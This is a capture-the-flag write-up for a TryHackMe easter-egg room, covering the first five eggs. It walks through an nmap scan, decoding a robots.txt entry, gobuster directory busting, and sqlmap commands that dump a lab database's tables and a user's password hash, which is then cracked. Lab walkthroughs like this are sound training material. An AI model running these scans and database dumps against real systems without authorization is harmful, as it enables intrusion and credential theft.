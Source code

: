 <img width="466" alt="banner" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/b4e79fb0-cd41-4824-9543-bec3bccac452">
<p></p>
-------------------------------------------------
<p></p>
Welcome to another THM writeup. This room was designed by <a href="https://tryhackme.com/p/DesKel">DesKel</a> for sharpening our CTF's skillz. We must find all 20 easter eggs. So let's get starter!

First run our nmap scan.
<code> nmap -A -T5 -p- targetIP</code>
<p></p>
Result's states that there's only two port's open:
<code>
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1b:c2:b6:2d:fb:32:cc:11:68:61:ab:31:5b:45:5c:f4 (DSA)
|   2048 8d:88:65:9d:31:ff:b4:62:f9:28:f2:7d:42:07:89:58 (RSA)
|_  256 40:2e:b0:ed:2a:5a:9d:83:6a:6e:59:31:db:09:4c:cb (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 360 No Scope!
</code>
<p></p>
Let's go to our browser. On port 80 we saw a little-bit wacky page - so here we must find all the egg's.

<h2>Egg 1</h2>
Hint: check the robots


<img width="960" alt="robots xtx" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/693f25fa-a6b5-40bc-b43f-8e17c6f5dd74">
<p></p>
After decoding hex vaules we've got first flag!

<h2>Egg 2</h2>
Hint: Decode the base64 multiple times. Don’t forget there are something being encoded.
According to hint, we must decode b64 value that we foud in robots.txt after decoding we receive: "DesKel_secret_base", that looks like directory. Let;s go to that page and we've got the second egg!
<p></p>
<h2>Egg 3</h2>
Hint: Directory buster with common.txt might help.
<p></p>
For this task I've used gobuster:

<code>gobuster dir -u http://TargetIP -w /user/share/wordlists/dirb/common.txt</code>
Gobuster found /login directory that conyains our third egg!

<h2>Egg 4</h2>
Hint: time-based sqli

It sound like task for SqlMap! First let's intercept POST request in Burp suite and save it as xml file, next we'll use SqlMap:
<code>sqlmap -r OurRequest.xml --current-db</code>

After finding out what our databes is called, we try to read the tables:
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 --tables</code>

we've got two tables:

<code>
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+
</code>
we must go deeper:
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T nothing_inside --columns</code>
result:
<code>
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+
</code>
Finally we've got the fourth egg!
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"</code>


<h2>Egg 5</h2>
Hint: Another sqli

<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T user --columns</code>
<code>
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+
</code>

<code>sqlmap -r OurRequest.xml-D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"</code>

<code>select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me</code>

After quick goole search we've got hash value and DesKel password! So let's login and receive egg 5!

